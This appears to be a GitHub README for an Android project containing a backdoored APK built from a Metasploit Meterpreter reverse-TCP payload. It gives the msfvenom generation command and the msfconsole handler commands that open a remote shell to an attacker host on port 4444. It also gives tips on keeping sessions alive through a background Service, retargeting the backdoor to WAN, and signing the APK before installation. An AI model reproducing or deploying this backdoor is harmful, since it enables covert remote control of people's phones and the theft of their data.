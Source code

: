 # msfvenom-backdoor-android
This Android Studio project contains the **source code of the backdoored .apk** generated by 
```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk
```
(in Kali linux suite)


Tries to solve the issue:
```
[*]Meterpreter session x closed - Reason:died
```
message, by starting payload in a Service. Meterpreter session is more stable in this way (original msfvenom apk often causes session to die very soon)

In this project the backdoor works in **LAN** settings, opening a meterpreter session to 192.168.178.30 on port 4444
(this settings can be changed in **Payload.java** file if you want to work in a WAN)
The control server must be executing handler exploit with Metasploit, with following commands:
```
$msfconsole
$use exploit/multi/handler
$set payload android/meterpreter/reverse_tcp
$set LHOST 192.168.178.30
$set LPORT 4444
$exploit
```
after the metasploit machine is waiting, the .apk can be installed and launched on the android terminal.

**Remember to sign the .apk with a key before installing**

Tested on Samsung Galaxy S6 - Lollipop
